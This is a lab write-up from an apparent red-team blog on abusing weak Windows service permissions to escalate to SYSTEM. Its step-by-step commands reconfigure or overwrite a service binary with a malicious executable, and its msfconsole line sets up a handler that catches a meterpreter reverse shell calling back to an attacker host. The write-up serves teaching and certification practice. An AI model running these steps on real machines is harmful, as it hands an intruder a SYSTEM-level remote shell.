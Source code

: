 ```yaml
---
layout: post
title: "weak service permissions"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /weak-service-permissions/
---
```


---
layout: post
title: "weak service permissions"
date: 2024-06-18
categories: privilege-escalation
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /weak-service-permissions/
---

# Weak Service Permissions

This quick lab covers two Windows service misconfigurations that allow an attacker to elevate their privileges:

1. A low privileged user is allowed to change service configuration - for example change the service binary the service launches when it starts
2. A low privileged user can overwrite the binary the service launches when it starts

## 1. Changing Service Configuration

Let's enumerate services with `accesschk` from SysInternals and look for `SERVICE_ALL_ACCESS` or  `SERVICE_CHANGE_CONFIG` as these privileges allow attackers to modify service configuration:

{% code title="attacker@victim" %}
```
\\vboxsvr\tools\accesschk.exe /accepteula -ucv "mantvydas" evilsvc
or
\\vboxsvr\tools\accesschk.exe /accepteula -uwcqv "Authenticated Users" *
```
{% endcode %}

Below indicates that the user `mantvydas` has full access to the service:

![](<../../.gitbook/assets/Annotation 2019-05-21 205403.png>)

Let's modify the service and point its binary to our malicious binary that will get us a meterpreter shell when the service is launched:

{% code title="attacker@victim" %}
```
.\sc.exe config evilsvc binpath= "c:\program.exe"
```
{% endcode %}

![](<../../.gitbook/assets/Annotation 2019-05-21 205633.png>)

Let's fire up a multihandler in mfsconsole:

{% code title="attacker@kali" %}
```
msfconsole -x "use exploits/multi/handler; set lhost 10.0.0.5; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"
```
{% endcode %}

...and start the vulnerable service:

{% code title="attacker@victim" %}
```
.\sc.exe start evilsvc
```
{% endcode %}

..and enjoy the meterpreter session:

![](<../../.gitbook/assets/Annotation 2019-05-21 210027.png>)

Note that the meterpreter session will die soon since the meterpreter binary `program.exe` that the vulnerable service `VulnSvc` kicked off, is not a compatible service binary. To save the session, migrate it to another sprocess:

{% code title="attacker@kali" %}
```
run post/windows/manage/migrate
```
{% endcode %}

Even though the service failed, the session was migrated and saved:

![](<../../.gitbook/assets/Annotation 2019-05-21 210541.png>)

## 2. Overwriting Service Binary

From the first exercise, we know that our user has `SERVICE_ALL_ACCESS` for the service `evilsvc`. Let's check the service binary path:

{% code title="attacker@victim" %}
```
sc.exe qc evilsvc
```
{% endcode %}

![](<../../.gitbook/assets/Annotation 2019-05-21 210916.png>)

Let's check file permissions of the binary c:\service.exe using a native windows tool `icals` and look for (M)odify or (F)ull permissions for `Authenticated Users` or the user you currently have a shell with:

{% code title="attacker@victim" %}
```
icacls C:\service.exe
```
{% endcode %}

![](<../../.gitbook/assets/Annotation 2019-05-21 211128.png>)

Since c:\service.exe is (M)odifiable by any authenticated user, we can move our malicious binary c:\program.exe to c:\service.exe:

{% code title="attacker@victim" %}
```
cp C:\program.exe C:\service.exe
ls c:\
```
{% endcode %}

![](<../../.gitbook/assets/Annotation 2019-05-21 211232.png>)

...and get the meterpreter shell once `sc start evilsvc` is executed. Note that the shell will die if we do not migrate the process same way as mentioned earlier:

![](<../../.gitbook/assets/Annotation 2019-05-21 211349.png>)

Since services usually run under `NT AUTHORITY\SYSTEM`, our malicious binary gets executed with `SYSTEM` privileges:

![](<../../.gitbook/assets/Annotation 2019-05-21 212438.png>)
@spotheplanet
